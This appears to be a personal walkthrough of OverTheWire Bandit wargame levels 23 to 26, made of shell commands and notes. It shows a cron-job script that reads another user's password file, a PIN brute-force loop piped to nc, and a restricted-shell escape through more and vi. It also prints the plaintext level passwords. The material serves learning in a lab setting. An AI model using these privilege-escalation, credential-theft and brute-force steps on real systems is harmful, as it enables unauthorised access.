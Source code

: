 bandit23@bandit:~$ ls -la /var/spool/bandit24/foo/
ls: cannot open directory '/var/spool/bandit24/foo/': Permission denied

bandit23@bandit:~$ ls -la /var/spool/bandit24
total 256
dr-xr-x---  3 bandit24 bandit23   4096 Oct  5 06:19 .
drwxr-xr-x  5 root     root       4096 Oct  5 06:19 ..
drwxrwx-wx 15 root     bandit24 249856 Mar 23 22:28 foo

directory is executable we can write a script that will be excuted by the cron job as bandit24
so we can access files owned by bandit24 like the /etc/bandit_pass/bandit24.
need to figure out where does the output of the file go.

note that the script will be executed then after 60 seconds a sigterm will be sent

bandit23@bandit:/tmp/hkr123$ echo "mkdir /tmp/hkr123; chmod 777 /tmp/hkr123; cat /etc/bandit_pass/bandit24 > /tmp/hkr123/pass; chmod 777 /tmp/hkr123/pass" > /var/spool/bandit24/foo/exec.sh && chmod 777 /var/spool/bandit24/foo/exec.sh

retrieves the password for bandit24

bandit24:VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

#bandit25
we then use this script to post the password for bandit24 and do a brute force attack for the 
pincode.
bandit23@bandit:~$ for i in $(seq 1 9999); do printf "<password for bandit24> %40d\n" $i; done | nc localhost 30002

gives us password for bandit25
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

bandit25:p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

#bandit26,27
bandit26 has ssh key in bandit25 directory. as usual, bandit26 ssh key in repo
bandit26 does not have a login shell set but rather a program that is called showtext

showtext is just a script that executes more on ~/text.txt and then exits.
the exit closes the connection.

more is a text previewer. it works by filtering through pages. the thing is, if your terminal
is big enough it will print everything then exist (hard pard to find, had to google). to avoid 
this, resize the window to be small.

from more pages you can exeucte commands or press v to open vi
in vi you can type :e <somefile> to edit the file

:e /etc/bandit_pass/bandit26 gives the password
bandit26:c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

now in the same vi session
:set shell=/bin/bash
:shell
you drop into a shell that is in bandit26
bandit26 has a bandit27-do that does commands as bandit27

